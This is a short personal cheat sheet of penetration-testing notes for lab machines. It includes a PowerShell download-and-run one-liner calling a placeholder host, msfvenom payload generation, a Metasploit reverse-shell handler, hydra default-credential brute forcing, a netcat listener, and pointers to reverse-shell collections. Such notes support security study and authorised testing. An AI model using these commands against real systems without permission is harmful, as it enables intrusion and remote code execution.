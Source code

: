# Random notes that I have not filed yet

## Standard nmap scan
`sudo nmap -sC -sV -oA nmap/(box name) (IP)`

## Screenshots
### Howto
In Kali, `CTRL+SHIFT+PRINT SCREEN` brings up a target window, you can then use this to draw a rectangle around an area and take a picture. This picture is saved to your clipboard, which you can paste inside or outside of your VM
### Screenshot access when obtained
Windows: `hostname; whoami; ipconfig`

Linux: `hostname; whoami; ip a`

## Setup a simple web server
`python -m SimpleHTTPServer`

## Download from Windows shell
`IEX(New-Object Net.WebClient).downloadString('http://(IP/HOSTNAME)')`

## Encoding file to remove bad characters, and copy to clipboard
`cat (filename) | iconv -t UTF-16LE | base64 -w 0 | xclip -selection clipboard`

Change `UTF-16LE` to `UTF-8` for Unix

## HTTP login pages
`hydra -C /usr/share/seclists/Passwords/Default-Credentials/(chosen file) -s (port) (IP) http-get (subdirectory)`

## MSFVenom
### List payloads
`msfvenom -l payloads`

### List formats
`msfvenom -l formats`

### Create payload
`msfvenom -p (payload) LHOST=(IP) LPORT=(port) -f (format) -o (output filename)`

## Setup handler
In Metasploit: 

`use exploit/multi/handler`

`set payload (selected payload)`

`set LHOST tun0`

`set LPORT (port)`

`exploit -j` to run in background

## Check sessions in Metasploit
`sessions -i 1`

## RPC 
### Access
`rpcclient -U '' (IP)`
### User dump
In RPC client, run `enumdomusers`
### More details
In RPC client, run `querdispinfo`

## Wordlists
### How to make nice wordlists
`hashcat --force --stdout -r /usr/share/hashcat/rules/best64.rule (original password list you have) > password.lst`

## Decompilers
### DNSpy
Recommended for .NET

## Windows shell
### `allinfo`
Windows version of `ls -lah`
### `type`
Windows version of `cat`

## OS typing by TTL
Windows has a default of a 128 TTL, Unix has 64?

## Finding web server subdirectories
`gobuster dir -u '(IP)' -x (format) -w /usr/share/wordlists/dirbuster/(chosen wordlist) -o (output file)`

## Reverse shells
### Where can they be found?
On Kali, find most in `/opt/nishang/Shells/`, `/usr/share/laudanum/php/`

Plenty at [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Netcat is fairly reliable, bash also works well
### Setup a listener for a reverse shell
`nc -lvnp 8081`

### Convert into a real shell
`python -c 'import pty;pty.spawn("/bin/bash")'`


## Searchsploit
Path for Kali is `/usr/share/exploitdb/exploits/`

